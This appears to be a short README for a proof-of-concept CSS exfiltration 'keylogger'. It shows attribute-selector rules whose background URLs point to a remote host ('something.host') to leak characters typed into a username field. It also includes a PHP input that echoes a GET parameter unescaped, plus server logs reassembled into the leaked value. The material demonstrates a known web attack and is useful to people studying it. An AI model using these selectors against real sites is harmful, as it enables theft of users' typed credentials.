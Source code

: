 # The PoC-CSS Exfill Basic Keylogger
First of all i was developing bot stuff and i seen `attribute=value] [target=_blank]` in source code of website. This method stuck in my mind. Because we can get access all of element that has _blank attribute. 
Than i made a search about how can i demonstrate this selector.
For example:
	 #username[value="admin"]{
	 	background:url("https://something.host/");
	 }
It means i can put malicious code.  To explain further i can do it more usefull.
For example:
`         #username[value*="aa"]~#aa{background:url("https://something.host/aa");
`
` <input type="text" id="username" name="username" value="<?		php echo $_GET['username']; ?>" />
        <input id="form_submit" type="submit" value="submit"/>
        <a id="aa">`
		
When a user enters any string consisting of the letters like 'a' specific elements will be styled with a non-existent background image at a remote attacker URL. 

There are 3 conditions
--------------------------------------------------------------------------------
 1. Parsed data must be ready while page is rendered.
 2. We must have at least one CSS Selector.
 3. The element must have to CSS property which takes a URL, background, background-image and etc.
--------------------------------------------------------------------------------

## 1 USAGE

`http://127.0.0.1/css-exfilphp?username=abab`  
Output will be:
- [Wed Mar 30 19:58:44 2022] 127.0.0.1:52588 [404]: GET /a_ - No such file or directory
- [Wed Mar 30 19:58:44 2022] 127.0.0.1:52589 [404]: GET /ab - No such file or directory
- [Wed Mar 30 19:58:44 2022] 127.0.0.1:52590 [404]: GET /ba - No such file or directory
- [Wed Mar 30 19:58:44 2022] 127.0.0.1:52591 [404]: GET /_b - No such file or directory

------------


If we re-assemble this output:

------------
- a   		#a_
- b			#b_
- ab     		#ab
- aba 		#ba
- abab		#_b


